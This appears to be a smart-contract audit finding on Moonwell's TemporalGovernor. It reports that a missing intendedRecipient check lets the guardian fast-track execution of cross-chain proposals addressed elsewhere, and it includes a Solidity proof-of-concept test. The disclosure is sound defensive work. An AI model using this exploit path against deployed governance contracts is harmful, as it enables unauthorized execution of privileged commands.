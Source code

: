 This will bypass the `queueProposal` flow and execute commands immediately.

The issue here is that there is no check in `_executeProposal` that the `intendedRecipient` is this `TemporalGovernor`.

### Impact

`governor` can execute any commands communicated across `Wormhole` as long as they are from a trusted source.

This requires that the `targets` line up between chains for a `governor` to abuse this. However only one `target` must line up as the `.call` made [does not check for contract existence](https://github.com/code-423n4/2023-07-moonwell/blob/main/src/core/Governance/TemporalGovernor.sol#L395-L402). Since "unaligned" addresses between chains will most likely not exist on other chains these calls will succeeed.

### Proof of Concept

Test in `TemporalGovernorExec.t.sol`, all of the test is copied from `testProposeFailsIncorrectDestination` with just the change at the end where instead of calling `queueProposal`, `fastTrackProposalExecution` is called instead, which doesn't revert, thus highligting the issue.

```solidity
    function testFasttrackExecuteSucceedsIncorrectDestination() public {
        address[] memory targets = new address[](1);
        targets[0] = address(governor);

        uint256[] memory values = new uint256[](1);
        values[0] = 0;

        TemporalGovernor.TrustedSender[]
            memory trustedSenders = new TemporalGovernor.TrustedSender[](1);

        trustedSenders[0] = ITemporalGovernor.TrustedSender({
            chainId: trustedChainid,
            addr: newAdmin
        });

        bytes[] memory payloads = new bytes[](1);

        payloads[0] = abi.encodeWithSignature( /// if issues use encode with selector
            "setTrustedSenders((uint16,address)[])",
            trustedSenders
        );

        /// wrong intendedRecipient
        bytes memory payload = abi.encode(newAdmin, targets, values, payloads);

        mockCore.setStorage(
            true,
            trustedChainid,
            governor.addressToBytes(admin),
            "reeeeeee",
            payload
        );

        // guardian can fast track execute calls intended for other contracts
        governor.fastTrackProposalExecution("");
    }
```
